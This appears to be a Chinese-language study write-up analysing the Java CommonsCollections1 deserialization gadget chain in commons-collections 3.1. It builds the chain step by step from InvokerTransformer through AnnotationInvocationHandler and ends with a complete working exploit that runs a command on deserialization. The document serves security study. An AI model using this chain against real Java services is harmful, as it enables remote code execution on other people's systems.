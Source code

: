 # CommonsCollections1分析



## 1.环境搭建

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

- AnnotationInvocationHandler调试与Find问题

  https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/8dd0918b97a4 下载对应版本的zip，在jd8u65文件夹下存在一个src.zip，解压后将src/share/classes/sun文件夹放在src下。

<img src="./img/image-20240327014808365.png" alt="image-20240327014808365"/>

- 调用Find usages找不到，可以修改配置如下：

  <img src="./img/image-20240327014956561.png" alt="image-20240327014956561"  />



## 2.调试分析

常见的命令调用方式：

```java
Runtime r = Runtime.getRuntime();
r.exec("open -a calculator");
```

当我们利用InvokerTransformer时，它的transform方法如下：

```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    }
    try {
        Class cls = input.getClass();//获取input的class对象
        Method method = cls.getMethod(iMethodName, iParamTypes);//通过class对象获取方法
        return method.invoke(input, iArgs); //方法调用还是通过input
    }
      ....
}
```

同样可以构造出执行calc的代码，如下：

```java
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}).transform(r);
```

根据java反序列化的调用方式，需要找到一处调用transform方法的位置。

在CC1链中利用的是`TransformedMap#checksetValue`方法，如下：

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

在`TransformedMap`中是实现了`AbstractInputCheckedMapDecorator`接口，该接口中存在`setValue`方法调用到`checkSetValue`方法,代码如下：

```java
public Object setValue(Object value) {
    value = parent.checkSetValue(value);
    return entry.setValue(value);
}
```

通过`TransformedMap`可以用来装饰另一个`Map`以变换添加的对象，也就是说我们可以将命令执行的代码改写为如下：

```java
Runtime r = Runtime.getRuntime();

InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);

for (Map.Entry o : decorate.entrySet()) {
    o.setValue(r);
}
```

那么接下来需要找到一处调用`setValue`方法的位置，这里发现`AnnotationInvocationHandler#readObject`中存在`memberValue.setValue`的调用形式且`memberValue`值可控，使用它继续构造链子,代码如下：

```java
  Runtime r = Runtime.getRuntime();

  InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"});
  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put("name","123");
  Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, invokerTransformer);



  Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
  Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
  annotationConstructor.setAccessible(true);
  Object o = annotationConstructor.newInstance(Bean.class, decorate);
```

但是该构造很明显存在问题：1.Rumtime不可序列化的. 2.`memberValue.setValue(xxxx)`其中xxx不可控.

为了解决这两个问题，需要利用到其它类，可以使用`ChainedTransformer`它的代码如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

它实现的功能：依次调用每个Transformer.transform，将结果传递到下一个Transformer中，利用该功能改写一下命令执行的部分,代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(r);
```

通过以上代码，能够通过`chainedTransformer.transform(r);`进行利用链的调用，但是前面提到的Runtime对象是不能够序列化的，所以还得换种方式。

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});
chainedTransformer.transform(Runtime.class);
```

通过这样的形式，解决了Runtime不可序列化的问题，还有一个问题就是`setValue(xxxx)`其中xxxx是不可控的，所以像上面的调用，无法直接传入`Runtime.class`,这个点需要利用到`ConstantTransformer`,它的transform代码如下：

```java
public Object transform(Object input) {
    return iConstant;
}
```

调用之后原样返回，这样解决setValue值不可控的问题,成功解决了这两个问题，代码如下：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

chainedTransformer.transform("123");
```

结合之前提到的，构造出完整的链子：

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
    new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open -a calculator"}),
});

HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put("name","123");
Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, chainedTransformer);



Class<?> annotation = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annotationConstructor = annotation.getDeclaredConstructor(Class.class, Map.class);
annotationConstructor.setAccessible(true);
Object o = annotationConstructor.newInstance(Bean.class, decorate);

unSerialize(serialize(o));
```



## 3.反序列化调用图

![image-20240327132834298](./img/image-20240327132834298.png)
